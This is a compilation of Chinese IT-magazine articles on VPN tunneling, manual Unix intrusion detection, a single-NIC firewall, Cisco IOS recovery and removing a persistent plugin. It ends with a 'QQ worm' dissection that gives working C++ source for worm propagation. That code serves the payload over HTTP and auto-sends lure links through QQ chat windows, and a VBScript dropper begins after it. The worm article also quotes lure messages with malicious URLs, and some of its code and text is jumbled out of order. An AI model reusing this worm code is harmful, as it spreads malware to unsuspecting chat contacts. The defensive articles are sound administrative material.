隧道技术是 VPN 核心的通信技术，其特性直接影响 VPN 网络传输性能。隧道技术的基本过程是在源局域网与公网的接口处将数据作为负载封装，在目的局域网与公网接口处解封装，取出负载。被封装的数据包在互联网传递时所经过的逻辑路径称为“隧道”。

为创建隧道，隧道的客户机和服务器双方必须使用相同的隧道协议。

隧道技术可以分别以第 2 层或第 3 层隧道协议为基础。按 OSI 模型，第 2 层隧道协议对应数据链路层（如 PPTP、L2TP、L2F），第 3 层隧道协议对应网络层（如 IP over IP、IPSec 隧道模式）。目前绝大多数 VPN 网络采用第 3 层隧道协议。
图2

由于 VPN 隧道协议大部分基于 IP 数据包实现通信，其很难通过 NAT、企业防火墙或路由器。IP 数据包通过防火墙时检测严格，导致速度较慢，内部局域网中 VPN 用户在传输信息时性能得不到保证。

## 新的 VPN 隧道技术原理分析

为了解决 VPN 采用第 3 层隧道协议导致受防火墙影响、速度慢的问题，采用新的隧道技术应用于 VPN。该技术封装的数据包通过防火墙时不受影响，从而大幅提高 VPN 网速，发挥宽带网优势。

众所周知互联网采用 TCP/IP 协议，除 IP 协议（3 层/网络层）可产生传输数据外，TCP 协议（4 层/传输层）也可产生传输数据。HTTPS 服务通常不会被企业防火墙严格检测。

新的 VPN 隧道技术如果采用 HTTPS 服务生成的 TCP 数据包并在 VPN 隧道中传输，通过企业防火墙时到达 VPN 内部会很快。由于防火墙不检测 HTTPS 数据包，VPN 网速会显著提升。

## 具体应用方案

目前采用新 VPN 隧道技术和第 4 层隧道协议的 VPN 软件主要有 SoftEther。用户可安装虚拟网卡或虚拟 Hub；在 VPN 服务器安装虚拟 Hub，客户端安装虚拟网卡并访问。
图3

VPN 服务器和客户端安装好相应的虚拟网卡和虚拟 Hub 后，进行服务配置并启动各自服务。安装虚拟网卡后，在网卡配置中会出现虚拟网卡图标。
图4

SoftEther 配置较简单：先在安装虚拟 Hub 的 VPN 服务器上进行用户管理；再在 VPN 客户端（安装虚拟网卡）进行连接配置；在服务器端启动 SoftEther 虚拟 Hub 管理器并建立客户端所需账号和网络配置。
图5

输入服务器地址，进入虚拟 HUB 管理控制台，如图6所示。
图6

图6中选择 1 用户管理，再选择 2 创建新用户，输入用户名、密码、虚拟 Hub ID 号（输入 1，表示用户可以和 1 号虚拟 Hub 相连），其他选择回车即可，以此类推可以建若干个其他用户账号。如图7所示。
图7

在 VPN 客户机上（安装虚拟网卡）启动程序选项中 SoftEther 连接管理器（连接配置），图8为连接配置界面，主要输入虚拟 Hub 名称 th1，通信协议直接 TCP/IP 连接，用户名和密码为连接虚拟 Hub 时要求验证用，与图7中用户名、密码要一致。另外配置“端口”，你可以使用直接 TCP/IP 连接到虚拟 Hub。点击按钮后可输入将要连接的虚拟 HUB 的 IP 地址和端口，一般是可以直接接上互联网的公网地址。如图9所示。
图8
图9

如图10所示，已配置好 th1 Hub 账号名。
图10

配置好以后，VPN 客户机只要启动相关的虚拟 Hub 名，即可自动连接 VPN 服务器上的虚拟 Hub，一个 VPN 网络就构建好了。

SoftEther 软件采用非常特别的 Ethernet over TCP 隧道技术（4 层隧道技术），利用运行在系统内核模式的虚拟网卡程序把局域网数据链路层的通信内容封包到 TCP，传输给远方的虚拟 Hub。虚拟网卡是客户端，负责把要传输的通信内容转换成本软件才能识别的格式发送给虚拟 Hub；虚拟 Hub 是服务器端，负责接受虚拟网卡传来的特殊格式数据，然后还原为原始的通信内容，送回到物理世界中。数据包格式是 HTTPS，防火墙一般不加以检测阻拦。

SoftEther 软件传输数据时采用著名的 SSL 协议加解密，传输信息是比较安全的，甚至还支持其他著名加密算法 AES、RC4 等，供用户选择。

#### 总结

笔者单位有两个办公地点，相距 40KM，都有 100MB 光纤带宽连接因特网，原来采用两个路由器实现 VPN 连接两个局域网后，发现传输速度不到 100KB，性能很差，失去了宽带的意义。后来采用两台 PC 安装虚拟 Hub 程序，作为 VPN 服务器，内部局域网其他 PC 上安装虚拟网卡，运行 SoftEther 后，两地局域网 PC 之间传输速度达到 70 多 MB。笔者家里电脑也安装了虚拟网卡程序，使家里和单位之间传输数据非常方便，很好地实现了异地办公。

由于 SoftEther 之类软件的出现，克服了采用传统 3 层隧道技术 VPN 速度慢、用户使用 VPN 网络不方便的局限，带来了 VPN 技术新潮流。相信不久一些 VPN 设备厂商会根据 4 层隧道协议推出相关设备和软件产品，到时企业建 VPN 网络就会特别方便，性能会更加优异。
#### 开源系统入侵检测指南

文/图 冷血无情

最近无聊，去 NS-ONE 的主页找了点有价值的资料，然后刻了几张 UNIX 和 Linux 系统的安装光盘，终于在自己的爱机上架设了多个版本的系统，以此来方便我们下面的入侵检测。因为 Unix 系统经常承担着关键任务，所以它经常是入侵者攻击的首选目标。于是检测入侵、保护系统安全是管理员最为重要的任务之一。如果你今天手头和我一样，除了系统安装光盘外没有入侵检测工具的话，那么我们该如何去判断系统当前的安全性？如何去发现入侵呢？下面给大家介绍一些常用到的检查方法。以 Linux 和 Solaris 为例。

### 检查系统密码文件

首先从明显的入手，查看一下 passwd 文件。`ls -l /etc/passwd` 查看文件修改的日期。

```bash
awk -F: '$3==0 {print $1}' /etc/passwd
awk -F: 'length($2)==0 {print $1}' /etc/shadow
```

检查 passwd 文件中的特权用户（uid 为 0）以及是否存在空口令账户。

### 查看有没有奇怪的进程

重点查看进程：`ps aef | grep inetd`。inetd 是 UNIX 系统守护进程，正常情况下其参数应符合系统默认配置。若看到类似 `inetd -s /tmp/xxx` 等异常启动方式，可能表示系统被植入后门。

```bash
ps aef
kill -9 <pid>
find / -name <程序名> -print
```

若可疑进程被杀死后又重启，说明可能存在自启动脚本或替换程序，需要沿目录继续追踪。

### 检查系统守护进程

```bash
cat /etc/inetd.conf
grep "^#"
```

检查 `/etc/inetd.conf` 是否被篡改，确认远程服务对应程序是否异常替换（如将 `in.telnetd` 替换为 `/bin/sh` 造成免密 RootShell）。

### 检查网络连接和监听端口

```bash
netstat -an
netstat -rn
ifconfig -a
```

列出本机连接与监听端口，检查是否存在非法连接；并核对路由与网卡配置。

### 检查系统日志

使用 `last | more` 查看登录历史。日志依赖 syslog，攻击者常尝试停掉或篡改它。应检查 syslog 进程状态及日志文件（如 wtmp、utmp、message）完整性与修改时间。

```bash
Linux: ls -al /var/log
Solaris: ls -al /var/adm
```

### 检查系统中的 core 文件

某些服务被异常请求攻击后可能崩溃并生成 core 文件。通过全盘搜索 core，并检查其所在目录，可辅助判断是否存在入侵行为。

```bash
find / -name core -exec ls -l {} \;
```

### 检查系统文件完整性

可通过比较文件列表、校验数据库等方法检查完整性。Linux 下可使用 rpm 校验系统文件，判断是否被替换；若关键文件（如 `/bin/login`）被替换，可能形成后门。

```bash
rpm -qf <文件名>
# 以及 rpm 相关完整性校验命令（文中建议参考 man rpm）
```

文末继续讨论 login 程序后门：UNIX 中 login 常用于 Telnet 用户口令认证，攻击者可通过修改其源码实现绕过认证。

比较输入口令与存储口令时先检查后门口令。如果用户敲入后门口令，它将忽视管理员设置的口令让你长驱直入，这将允许入侵者进入任何账号，甚至是 root 账户。由于后门口令是在用户真实登录并被日志记录到 utmp 和 wtmp 前产生的一个访问，所以入侵者可以登录获取 Shell 却不会暴露该账号。管理员注意到这种后门后，使用 strings 命令搜索 login 程序以寻找文本信息。

许多情况下后门口令会原形毕露。入侵者又会开始加密或者更改隐藏口令，使 strings 命令失效。所以许多管理员利用 MD5 校验和检测这种后门。UNIX 系统中有 md5sum 命令，输入 `md5sum 文件名` 检查该文件的 md5 签名。它的使用格式如下：

```bash
md5sum -b 使用二进制方式阅读文件;
md5sum -c 逆向检查 MD5 签名;
md5sum -t 使用文本方式阅读文件。


```

在前面提到过守护进程，对于守护进程配置文件 inetd.conf 中没有被注释掉的行要进行仔细比较。举个简单的例子，如果你开放了 telnet 服务，守护进程配置文件中就会有一句 `telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd`。

可以看到它所使用的文件是 `/usr/sbin/in.telnetd`，检查该文件的完整性。入侵者往往通过替换守护进程中允许的服务文件来为自己创建一个后门。Linux 系统中的 `/etc/crontab` 也是经常被入侵者利用的一个文件，检查该文件的完整性，可以直接 `cat /etc/crontab`，仔细阅读该文件有没有被入侵者利用来做其他事情。

不替换 login 等文件而直接使用进程来启动后门的方法有一个缺陷，即系统一旦重启，这个进程就被杀死了，所以得让这个后门在系统启动的时候也启动起来。通常通过检查 `/etc/rc.d` 下的文件来查看系统启动的时候是不是带有后门程序。

说到这里，另外提一下，如果在某一目录下发现有属性为这样的文件 `-rwsr-xr-x 1 root root xxx.sh`，这表明任何用户进来以后运行这个文件都可以获得一个 RootShell，这就是 setuid 文件。运行 `find / -perm 4000 -print` 对此类文件进行全局查找，然后删除这样的文件。

## 检查内核级后门

如果你的系统被人安装了这种后门，通常都是比较麻烦的。首先，检查系统加载的模块，在 Linux 系统下使用 lsmod 命令，在 Solaris 系统下使用 modinfo 命令来查看。这里需要说明的是，一般默认安装的 Linux 加载的模块都比较少，通常就是网卡的驱动；而 Solaris 下就很多，没别的办法，只有一条一条地去分析。对内核进行加固后，应禁止插入或删除模块，从而保护系统的安全，否则入侵者将有可能再次对系统调用进行替换。

我们可以通过替换 `create_module()` 和 `delete_module()` 来达到上述目的。另外，对这个内核进行加固模块时应尽早进行，以防系统调用已经被入侵者替换。如果系统被加载了后门模块，但是在模块列表 `/proc/module` 里又看不到它们，出现这种情况，需要仔细查找 `/proc` 目录，根据查找到的文件和经验来判断被隐藏和伪装的进程，当然目录也可能不是隐藏的。

手工的入侵检测行为对于系统安全来说只是治标而不治本，多半还是依靠管理员的技巧和经验来增强系统的安全性。没有，也不可能形成真正的安全体系，虽然好过没有；可以检测和追踪到某些入侵行为，但如果碰上同样精通系统的入侵者就很难抓住踪迹了。搭建真正的安全体系需要配合使用入侵检测系统，一个优秀的入侵检测系统辅以系统管理员的技巧和经验可以形成真正的安全体系，有效判断和切断入侵行为，真正保护主机、资料。

- 适合读者：网络管理员
- 前置知识：无

### Windows 2000 构建单网卡网络防火墙

文/图 天然

伴随着教育的改革，各个学院都在扩大经营规模，许多大中专院校都构建了自己的校园网络，但是有一部分学校没有购买相应的防火墙设备。原因有多种：第一类由于资金有限，市面上的硬件防火墙又基本在 8 万以上，所以学校只能放弃这“可有可无”的网络设备。到后来网络投入使用后发现防火墙是绝对不可缺少的网络硬件，同时由于经费预算问题不能及时购买；第二类是由于校园网络建设之初，由于没有网络方面的人才参与，构建网络的人员压根不知道有这样东西，网络开发商更不愿意花这样“大头钱”，最终也放弃了“可有可无”的硬件。

搞了网络多年，我认为网络中的防火墙是必不可少的。对于一个网络，防火墙可以防止外部攻击，限制网络带宽，封锁非法 IP 地址，监视用户上网内容，防止网络犯罪，限制违规软件的使用（BT），网络计费等。几乎绝大多数的网络软性管理是要通过防火墙来实现的。如果你是一位网络管理员并且拥有一部好的防火墙设备，那么恭喜你，可以尽情地发挥你的管理员权利；但是如果你是一位网络管理员，但是你又没有防火墙如何是好？下面我要介绍的可能对你有一定的帮助。现在就以我们的网络实际情况来介绍一下通过……
Windows 2000 的路由和远程访问功能可以实现单网卡网络防火墙。我们的网络结构由外到内基本上是光电转换器。路由器内部接口 IP 地址设置是 210.*.23.113/24。计费网关内部网络接口 IP 地址设置是 192.168.0.254/24，外部网络接口 IP 地址设置是 210.*.23.114/24。主交换机 IP 地址设置是 192.168.0.1/24。楼层交换机或服务器（web、ftp、vod 等）如图 1 所示。
图1

由图 1 可以看到，我们的校园网络是没有防火墙的，计费网关硬件配置极低，要进行计费工作不能同时再承受来自防火墙的压力。所以我们考虑在网络中增加一台防火墙。由于传统防火墙的特征，防火墙的两边必须是不同网络，所以在网络中只能放在两个网络的衔接点处，但是这个点已经被计费网关占用。考虑防火墙的安放位置可以在以下 3 处：

- a. 主交换机和计费网关之间。
- b. 计费网关和路由器之间。
- c. 主交换机和楼层交换机之间。

考虑在实际工作中，大部分病毒、违规软件、非法攻击来自校园网络内部（现在的学生很调皮的），在计费网关和路由器之间安放防火墙，来自内部的攻击就要通过计费网关，增大了计费网关的负担，所以第 1 种选择被放弃。在每个楼层和主交换机之间增加防火墙，可以细致地管理学院各个楼层，同时又不影响整个网络的大环境，但是由于成本问题我们还是放弃了第 3 种选择。最终我们选择了第 2 种方法，在计费网关和路由器之间加入防火墙。网络拓扑图如图 2 所示。
#### 具体步骤

包括两个硬件的设置：防火墙、主交换机。

#### 防火墙的设置

- 1. 防火墙的硬件要求：性能良好的 PC 机一台（配置越高越好），内存不能小于 512MB，高性能网卡一块（百兆、千兆要看你的网络如何，我们的网络是千兆的）。
- 2. 软件要求：安装了路由和远程访问功能的 Windows 2000，设置一个虚拟的微软网卡 Microsoft Loopback Adapter。
- 3. 具体配置方法：设置一个虚拟的微软网卡 Microsoft Loopback Adapter。开始中的“设置”里选择控制面板中的“添加/删除硬件”。在“添加/删除硬件向导”中选择下一步，选择“添加/排除设备故障”然后选择下一步，选择“添加新设备”点击下一步；在“要让 Windows 搜索新硬件吗？”选择否，点击下一步；在“硬件类型”中选择“网卡”点击下一步；在“制造商”中选择“Microsoft”，在“网卡”中选择“Microsoft Loopback Adapter”点击下一步，然后一路默认即可。

此时右键点击“网络邻居”的属性，在“网络和拨号连接”窗口中会多一个“本地连接”，这就是刚刚安装的微软软件网卡。

#### 单网卡网络防火墙设置

- 1. 将服务器（也是防火墙）本身的物理网卡设置一个和主交换机同一网络的 IP 地址。这里设置为 IP：192.168.0.253，submask（子网掩码）：255.255.255.0，default gateway（默认网关）：192.168.0.254。
- 2. 打开“开始”菜单，“程序”中的“管理工具”，选择“路由和远程访问”。在“路由和远程访问”窗口中的“服务器状态”下方会有一个和你的计算机同名的服务器标识，我的服务器名为“tiansha”，在这个标识上点击鼠标右键，选择“配置并启用路由和远程访问”。第一个对话框选择下一步；第二个对话框中选择“Internet 连接服务器”同样选择下一步；在第三个对话框中选择“设置有网络地址转换（NAT）路由协议的路由器”点击下一步；在第四个对话框中选择“使用选择的 Internet 连接”，并在 Internet 连接中选择你刚刚安装的微软 Microsoft Loopback Adapter 网卡点击下一步。  
  如果你的服务器中有 3 块以上网卡（当然包括微软的虚拟网卡），那么还会出现“网络选择”对话框，在路由接口处选择服务器本身的物理网卡（即 IP 为 192.168.0.253 的网卡）；如果服务器只有两块网卡（包括虚拟网卡）则该对话框不显示，直接到下一个对话框，在这个对话框中点击完成，防火墙上的设置就完成了。

#### 主交换机的设置

主交换机设置很简单，只要将主交换机的默认网关设置为防火墙的 IP（192.168.0.253）地址即可。

大功告成！如图 3 所示。
图3

通过上述设置之后，网络中向外部流出的数据走向以及所有内部上网用户向外部流出的数据流都必须通过防火墙，这样我们就可以借助一些外部软件（比如瑞星防火墙、Sniffer 工具）来管理我们的网络。这里要说一句，其实微软“路由和远程访问”中的 IP 策略等功能都可以实现很多网络管理功能。如果有时间我们可以再讨论一下，这里就不多做解释了。

#### 理论分析

传统防火墙的原理是利用网关特性，结合网络中数据牵引技术。在原来的网络中，由内到外的数据流经由主交换机 192.168.0.1 之后直接流入计费网关 192.168.0.254。现在在不影响网络拓扑结构的同时，将由主交换机流出的数据先流向防火墙，然后经防火墙处理后再流入计费网关。虽然实现了防火墙管理功能，但是也牺牲了网络中其他硬件性能。通过图 3 可以看出，主交换机在整个处理过程中要处理两次内部来的信息：一次来自楼层交换机，二次来自防火墙数据，这无疑增大了主交换机负荷。

#### 单网卡防火墙和传统防火墙的区别

传统防火墙一定要放在网络主干线路上，而且防火墙两边必须属于不同网络。如果要在原来没有防火墙的网络中加入防火墙，要修改网络中的多个硬件设备，必须更改网络中的物理拓扑结构，成本高，不会增大网络中其他硬件负荷，要求至少两块物理网卡。

单网卡防火墙打破了传统防火墙概念，将这种单网卡防火墙加入网络中，几乎不用修改网络中其他硬件配置，不必更改网络中的物理拓扑结构，实现简单、成本低，会减小网络中其他硬件负荷，而且只需要一块物理网卡。

其实作为一名网络管理员，要有扎实的理论基础，灵活运用所学知识，敢于打破传统思维观念。当然，有个好身体才行，搞网络真的很辛苦。在这里祝愿那些和我一样战斗在网络最前沿的兄弟们工作顺利、网络稳定！

适合读者：网络管理员、系统管理员  
前置知识：无

### 突破交换机 IOS 恢复速度

文／图 黄陈

在网上有很多关于交换机 IOS 恢复的文章，包括 Cisco 官方网站上也是，但是关于交换机 IOS 恢复速度，通常都设置为 9600 bit/s。好像网上有篇这方面的精华帖还说这个速度不能改，难道真的就是这样吗？难道真的要我们在恢复 IOS 时等待那么漫长的时间吗？不，我们要突破。

下面就在交换机 2950 上一步一步来实现：

- 1. 用交换机自带的控制线（最新 Cisco 交换机的这条连接线是淡蓝色）连接交换机 console 口和计算机 COM 口，用带有 XMODEM 功能的终端软件连接（Windows 自带的超级终端或者 SecureCRT，我推荐后者）。
- 2. 设置连接方式：速率 9600（不要着急，现在设置这个默认速度才能连上交换机，因为交换机默认是 9600，等会连接上再改速度），无校验，无流控，停止位 1。
- 3. 插上交换机电源让交换机启动。假设交换机 IOS 丢失或损坏，交换机会自动进入引导装载模式，提示符是 `switch:`（如果 IOS 正常，只是想升级 IOS，那么先拔掉交换机后部电源线，再按住交换机面板左侧 mode 键，插入电源插头加电，看到交换机面板上未接线的以太口指示灯都亮且几个系统指示灯常亮，约几秒钟）。
- 4. 在超级终端提示符 `switch:` 下输入 `flash_init` 初始化 flash 文件系统。

显示如下：

```text
switch: flash_init
Initializing Flash...
flashfs[0]: 75 files, 3 directories
flashfs[0]: 0 orphaned files, 0 orphaned directories
flashfs[0]: Total bytes: 7741440
flashfs[0]: Bytes used: 5257216
flashfs[0]: Bytes available: 2484224
flashfs[0]: flashfs fsck took 7 seconds.
...done initializing flash.
Boot Sector Filesystem (bs:) installed, fsid: 3
Parameter Block Filesystem (pb:) installed, fsid: 4
Switch: copy xmodem: flash:/ c2950-i6q4l2-mz.121-14.EA1a
Begin the Xmodem or Xmodem-1K transfer now...
CCCCCC


```

- 5. 加载帮助文件：`switch: load_helper`
- 6. 修改速度：`set BAUD rate`（可选 110/300/1200/2400/4800/9600/19200/38400/57600/115200）
- 7. 通过 XMODEM 协议把 IOS 灌入交换机。
- 8. 在超级终端中选择 Transfer → Send Xmodem（或 Xmodem-1K）并发送文件。
- 9. 传送完后用 `boot` 命令正常启动。

文中说明将波特率从 9600 提升到 115200 后，需同步修改终端连接速度；并提到该设置保存在 `env_vars` 环境变量文件中，进入正常系统后可删除或修改该文件恢复默认连接方式。

适合读者：网管、网民  
前置知识：无

### 将 CNNIC 中文上网插件连根拔起
提起木马清除，常见做法是中断进程后删除木马程序库或使用杀毒软件。作者分享一次较波折的杀毒经历，强调遇到问题时应能自行分析。

作者下载并安装“杀毒精灵”后系统变慢，卸载原程序后在系统目录清理残余时发现一个中文插件（CNNIC 中国互联网络信息中心）无法删除，提示文件正在使用。

进一步排查发现并非木马感染，最新版病毒库全盘查杀无可疑项。初步判断该插件不是病毒，但常规查杀和卸载均无效，只能手动检查。
分析认为安装杀毒精灵时会自动安装 CNNIC 相关程序；无法在系统中删除是因为其有保护进程。

处理思路：不走普通卸载，改为手动删除。先用 StartUpManager 查看系统启动项（文中提到见图 2），再清理注册表 `Run` 键下相关项（如 Cdnctr）。
图2
图4

后刷新，显示还是删除不了。差点忘了，它还在后台运行着呢。我调出 Windows 自带的进程管理工具，结束了“CdnUpdate.exe”这个进程，再到“StartUpManager”把它从启动组关闭。可我万万没想到，当 StartUpManager 提示成功删除后，我重新点击注册表运行中的键值，“CdnUpdate.exe”又出现了。晕！不会是我眼花了吧？！看来不拿出杀手锏是不行了。

沉思中……既然我关闭了它的进程后还可以重新出现，它一定有守护进程。一想到这又立刻去分析当前系统进程，连线程插入的也用 Windows 优化大师的进程分析工具查过，不过还是没有一点线索。又一次沉思，印象中记得它安装目录里的文件名大半开头都是“Cdn”，如果我进行一次系统文件搜索，说不定会有线索？！

废话不说，马上在 CMD 命令行中输入 `Attrib /s Cdn*` 去查找，果然出现了好几个文件，其中有几个在 Windows 的系统目录里，就是那个“CNNIC”的文件表，当时可花费我好多精力从它的源安装包里手动分析出来的，如图 3 所示。
图3

图中的“CdnProt.sys”文件在 Windows 的 `System32\Drivers` 目录下。从扩展名 `sys` 看出这是设备虚拟文件，它在 Windows 启动时挂在系统内核里。因为当一个设备虚拟程序挂到系统内核时，几乎可以掌管一切工作，而这类程序启动一般是在注册表里挂装。果然经过漫长的注册表搜索，终于找到了，`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\` 就是它的藏身之所，如图 4 所示。

接下来当然是把它删了。删完后重启计算机，大部分文件都可以删除了。但是 `cdnnet.dll`、`cdns.dll` 这两个文件还是不能删除，难道它还有其他守护进程？在注册表再找找有关“Cdn”开头的项。果然在注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries\000000000001` 这个分支里找到了这个文件，如图 5 所示。
图5

> 如果不能确定位置或对注册表不太熟悉，在删之前可以先把这个注册表分支备份，以防不测。

从注册项目位置分析，`WinSock2` 项目是用来挂网络组件的，这里可以说是整个 Windows 的网络接口。在这里如果挂上合适程序就可以进行网络数据嗅探，我们装 WinPcap 嗅探包也是在这里挂上去的。这个“CNNIC”也够“坏”的，这里也敢用！想不说它是木马也不行！杀无赦！且慢！等什么呢？

因为这个项挂程序是按 `000000000001` 到 `000000000002` 的顺序排列的，而这个“CNNIC”直接把自己放到第一位。当我们把第一项删除后，系统启动时如果找不到 `000000000001`，网络接口就会异常。我当时没注意这个问题，直接删除后我的网络全都不通，连一个数据包都没发送成功，网卡只收不发，起初还以为网卡有问题，害我查了大半天才知是手杀“CNNIC”的后遗症。

还有一点要注意，这个“CNNIC”的设备虚拟文件在不同系统中是不同文件，如 9X、XP、2003 等系统，设备虚拟文件要与对应系统相匹配，因为开发时系统中断不同，所以在不同系统中可能会以不同文件作守护。不过按上面方法操作，其他系统的清理方法也差不多，只要灵活变通，对这类顽固恶意软件清除起来也能势如破竹！

刘流：以 QQ 为代表的即时通信软件在网络时代迅速而轻易地赢得了无数用户的心，然后以更加惊人的速度普及开去。目前，网络上使用 QQ 的人数已经超过 1 个亿，但树大招风，从今年病毒发作情况看，已经有将近 100 种 QQ 类型病毒出现。由此可以看出，利用 QQ 这类即时通讯工具进行传播的病毒，已经逐渐成为新病毒的流行趋势。剖析这些病毒，找出它们传播的关键，从而扼杀它们，这就是今天的主题。

适合读者：程序员，病毒爱好者，网管  
前置知识：C/C++，VBS 基础

### 解剖 QQ 蠕虫

文/图 ANGELX
#### 背景

大家应该都还记得恶性 QQ 病毒——“爱情森林”（trojan.sckiss）吧？病毒制作者利用 QQ 聊天机制，向用户发送“这个你去看看，很好看”的信息。如果用户收到并点击该链接，则会进入包含恶性攻击代码的网页，此时病毒会被自动下载并发作。同时，病毒还会利用用户 QQ 好友名单继续向外扩散，而且会侵占系统目录，继续“生生不息”。“爱情森林”病毒通过 QQ 发送信息之后，便开始进行本机感染。

据悉，这种恶意网页用 JS 脚本语言编写，利用了 Java Exploit 漏洞，所以不经用户允许便可悄悄下载“爱情森林”病毒并执行。而后该恶意网页会修改用户注册表并将 IE 标题和默认首页改为 sckiss.yeah.net。

另一个名叫“QQ 伪装专家”的新型恶性病毒会将真正 QQ 程序改名，然后将自身伪装成 QQ 程序，并在桌面建立快捷方式。用户点击该快捷方式后，屏幕上会出现与真 QQ 一样的界面；当用户登录时，病毒便将 QQ 号码与密码偷偷发送到指定邮箱。

在原理上，这个病毒和 QQ 毫无关系，只是利用人们对 QQ 的熟悉性来欺骗用户而已。

必须注意的是，微软力推的即时通信软件 MSN Messenger，因为它与 Windows 系统的完美结合，用户群不在少数。一例通过 MSN 聊天工具进行广泛传播的电脑病毒“GFleming”也出现了。这是世界上第一例通过微软即时聊天工具 MSN Messenger 进行大规模传播的电脑病毒。

“GFleming”病毒传播非常迅速，一旦用户感染该病毒，蠕虫会先查看用户是否安装并登录 MSN Messenger；若已登录，就会通过 MSN 对话窗口向联系人名单中的人发送欺骗性信息。

```text
Hey!! Could you please check out this program for me? I made it myself and want people to test it. Its a meacme with the program that explains what it does! http://home.no.net/download/JBR2002.exe < There you can download it! give me advices on what to upgrade please!!
```

收到该信息的用户不小心点击链接执行后，蠕虫会继续通过 MSN Messenger 向其他联系人发送同样信息，引起连锁反应，造成快速传播。

“Cool Worm”病毒的欺骗消息如：“Go To http://www.masenko-media.net/cool.html NoW!!!”。点击链接会打开带有恶意 Javascript 程序的网站；它会抢夺受害者好友名单，并向每个人发送相同邀请消息，同时把地址发送到指定邮箱。

类似病毒还有几例，原理相同。总之，这类病毒共性如下：一旦在机器上获得控制权，会先查看用户是否安装 QQ 或 MSN Messenger；发现后通过对话窗口向在线好友发送带超级链接的欺骗消息。好友点击后，IE 连接服务器下载 HTML 页面，其中含恶意代码，下载到本机并执行，完成一次传播；再以这台机器为基点继续向其好友发送。

欺骗信息一般是邀请你去看某个网址，例如“看看这个，好东西 http://www.xxx.com/cool.html”。从传播手段看，病毒传播是一种 C/S 模式，即每台机器都从指定服务器下载。

这种方法的局限性是：一旦网站被封闭，病毒也就寿终正寝，不攻自灭。

#### P2P QQ 蠕虫原理

为了增强蠕虫健壮性，出现了新思路：每感染一台机器后，都在本机创建一个简易 HTTP 服务器，然后启动新线程，在新线程中寻找 QQ 的“发送消息”窗口；一旦找到，通过设置消息文本框并控制“发送消息(&S)”按钮来发送欺骗性消息。

当对方收到消息并点击链接后，会启动 IE 并与第一台机器的 HTTP 服务器通信，下载 HTML 页面并执行其中 VBS 代码；VBS 将自身拷贝到机器上并运行，蠕虫完成新一轮传播。

成一次传播，然后在新感染的机器上创建 HTTP 服务器，再向他的好友发送消息。

主要代码如下（为节约篇幅，省略不必要的初始化和错误判断）。

#### 1. HTTP 服务器的实现

```cpp
LisenSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
saServer.sin_family = AF_INET;
saServer.sin_port = htons(5058);
saServer.sin_addr.s_addr = INADDR_ANY;
bind(LisenSocket, (LPSOCKADDR)&saServer, sizeof(struct sockaddr));
listen(LisenSocket, SOMAXCONN);
CreateThread(0, 0, (LPTHREAD_START_ROUTINE)SendQQMsg, 0, 0, 0);
while(TRUE) {
    peerSocket = accept(LisenSocket, (LPSOCKADDR)&SockAddr, &nLen);
    SendFile();
}

void SendFile() {
    BYTE buf[1024];
    DWORD ByteRead;
    ::SetFilePointer(hFile, 0, 0, FILE_BEGIN);
    ReadFile(hFile, buf, 1024, &ByteRead, 0);
    while(ByteRead) {
        send(peerSocket, (const char*)buf, ByteRead, 0);
        ReadFile(hFile, buf, 1024, &ByteRead, 0);
    }
    closesocket(peerSocket);
}
```

```cpp
struct hostent *lpHostEnt;
char szLocalIP[30];
gethostname(buf, 256);
lpHostEnt = ::gethostbyname(buf);
struct in_addr *ia = (struct in_addr*)lpHostEnt->h_addr;
::lstrcpy(szLocalIP, "http://");
::lstrcat(szLocalIP, inet_ntoa(*ia));
::lstrcat(szLocalIP, ":5058/");

while(TRUE) {
    ::Sleep(1000);
    hWnd = ::FindWindow(0, "发送消息");
    if(hWnd == NULL) continue;
    hWndQQNumber = ::GetDlgItem(hWnd, QQNumberID);
    if(hWndQQNumber == NULL) continue;
    ::SendMessage(hWndQQNumber, WM_GETTEXT, 256, (long)buf);
    ::lstrcpy(QQRootNumber, QQRoot);
    ::lstrcat(QQRootNumber, buf);
    if(RegOpenKeyEx(HKEY_LOCAL_MACHINE, QQRootNumber, 0, KEY_QUERY_VALUE, &hKey) != ERROR_SUCCESS) {
        RegCreateKey(HKEY_LOCAL_MACHINE, QQRootNumber, &hKey);
        hTextWnd = ::ChildWindowFromPointEx(hWnd, p, CWP_SKIPINVISIBLE);
        ::SendMessage(hTextWnd, WM_SETTEXT, 30, (long)szLocalIP);
        hWndButton = FindWindowEx(hWnd, 0, 0, "发送消息(&S)");
        ::SendMessage(hWndButton, BM_CLICK, 0, 0);
    }
}
return 1;
```

服务器在 5058 端口等待，不使用 80 是避免防火墙对 80 号端口的敏感和限制。接收到来自远程的连接（由 IE 做客户端）后，把 HTML 文件传送过去，关闭连接。

#### 2. 操作 QQ

- 1）获得本机 IP 地址。  
- 2）等待出现“发送消息”窗口。  
- 3）获得这个窗口的 QQ 号，也就是这个好友的 QQ 号，判断是否已经向这个号发送过；如果是，则转 1），不是则发送，并在注册表中登记。  
- 4）获得文本区句柄，设置新的消息。  
- 5）向“发送消息(&S)”按钮发送 BM_CLICK 消息，发送这条信息，转 1）。

#### 3. 发送 HTML 页面

因为 IE 识别的是 HTML，而不能执行 exe，所以，HTML 要包含 exe，然后利用 HTML 做的 VBS，生成并运行 exe，从而达到传播的目的。

可是，对 EXE 编码和解码具有一定的难度。如何才能使代码最简练、最节约空间呢？这里给出一种新思路：把 EXE 和 HTML 硬编码到一个文件，就相当于将 EXE 文件指针移动到末尾，然后将 HTML 文件写到 EXE 之后。这样，当文件扩展名是 EXE 时，就执行 EXE（因为文件确实是 PE 结构）；扩展名是 HTML 时，就当作 HTML 解释，此时 EXE 内容就是乱码，显示在 IE 窗口之中。如下：

```cpp
DWORD WINAPI SendQQMsg(LPVOID lpParameter)
{
    HKEY hKey;
    char buf[256];
    HWND hWnd, hTextWnd, hWndQQNumber, hWndButton;
    char QQRoot[] = "Software\\QQNums\\";
    char QQRootNumber[128];
    int QQNumberID = 0x01DF;
    POINT p = {50, 280};
}
```

```asm
db "<HTML><HEAD><TITLE>hic</TITLE>"
db "<SCRIPT LANGUAGE=\"VBScript\">"
db "<!--", 0dh, 0ah
db "Set fso = CreateObject('Scripting.FileSystemObject')", 0dh, 0ah
db "sf=fso.GetSpecialFolder(1)", 0dh, 0ah
db "sf=sf & '\\PurpleMood.scr'", 0dh, 0ah
